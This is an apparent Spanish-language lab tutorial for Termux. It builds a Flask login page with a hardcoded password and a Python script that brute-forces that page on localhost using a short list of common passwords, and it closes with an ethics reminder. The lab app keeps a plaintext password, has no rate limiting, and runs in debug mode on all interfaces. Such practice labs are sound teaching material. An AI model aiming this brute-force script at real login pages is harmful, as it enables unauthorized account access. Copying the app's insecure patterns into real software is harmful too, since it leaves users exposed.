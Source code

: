 # LABORATORIO365
Crear una página web para una prueba de penetración con contraseña y un script en Python para intentar averiguarla puede ser un ejercicio educativo interesante. A continuación, te muestro cómo hacerlo en Termux.

### 1. Configuración de Termux

Primero, asegúrate de tener Python y Flask instalados en Termux. Si no lo has hecho, ejecuta los siguientes comandos:

```bash
pkg install python
pip install Flask
```

### 2. Crear la Página Web

Crea un archivo llamado `app.py` que contendrá el servidor Flask y la lógica de la página de inicio de sesión:

```bash
nano app.py
```

Luego, inserta el siguiente código:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

# Contraseña correcta
correct_password = "secreta123"

# Página de inicio de sesión
html_template = """
<!doctype html>
<html>
<head>
    <title>Prueba de Penetración</title>
</head>
<body>
    <h1>Iniciar Sesión</h1>
    <form method="POST">
        <input type="password" name="password" placeholder="Contraseña" required>
        <button type="submit">Entrar</button>
    </form>
    {% if message %}
        <p>{{ message }}</p>
    {% endif %}
</body>
</html>
"""

@app.route('/', methods=['GET', 'POST'])
def login():
    message = ""
    if request.method == 'POST':
        password = request.form.get('password')
        if password == correct_password:
            message = "¡Acceso concedido!"
        else:
            message = "Contraseña incorrecta. Inténtalo de nuevo."
    return render_template_string(html_template, message=message)

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

Este código crea una simple página web que solicita una contraseña. Si se introduce la contraseña correcta (`secreta123`), se concede acceso; de lo contrario, se muestra un mensaje de error.

### 3. Ejecutar la Aplicación

Guarda y cierra el archivo `app.py`. Luego, ejecuta el servidor Flask con el siguiente comando:

```bash
python app.py
```

La aplicación estará disponible en `http://127.0.0.1:5000/`.

### 4. Crear un Script en Python para Averiguar la Contraseña

Ahora, crearemos un script en Python que intente averiguar la contraseña. Crea un nuevo archivo llamado `brute_force.py`:

```bash
nano brute_force.py
```

Inserta el siguiente código:

```python
import requests

# URL de la página de inicio de sesión
url = "http://127.0.0.1:5000/"
# Lista de contraseñas a probar (puedes agregar más)
passwords = ["123456", "password", "123456789", "secreta123", "qwerty", "abc123"]

for password in passwords:
    response = requests.post(url, data={"password": password})
    
    if "¡Acceso concedido!" in response.text:
        print(f"Contraseña encontrada: {password}")
        break
    else:
        print(f"Contraseña incorrecta: {password}")
```

### 5. Ejecutar el Script de Fuerza Bruta

Guarda y cierra el archivo `brute_force.py`. Asegúrate de que la aplicación Flask esté en ejecución y luego ejecuta el script de fuerza bruta:

```bash
python brute_force.py
```

### 6. Consideraciones Éticas

Recuerda que realizar pruebas de penetración y ataques de fuerza bruta deben hacerse solo en entornos donde tengas permiso explícito para hacerlo. El uso indebido de estas técnicas puede tener consecuencias legales.

### Resumen

Hemos creado una sencilla aplicación web de inicio de sesión con Flask y un script en Python para intentar averiguar la contraseña mediante un ataque de fuerza bruta. Esto es solo para fines educativos y de práctica. ¡Asegúrate de usarlo de manera responsable!
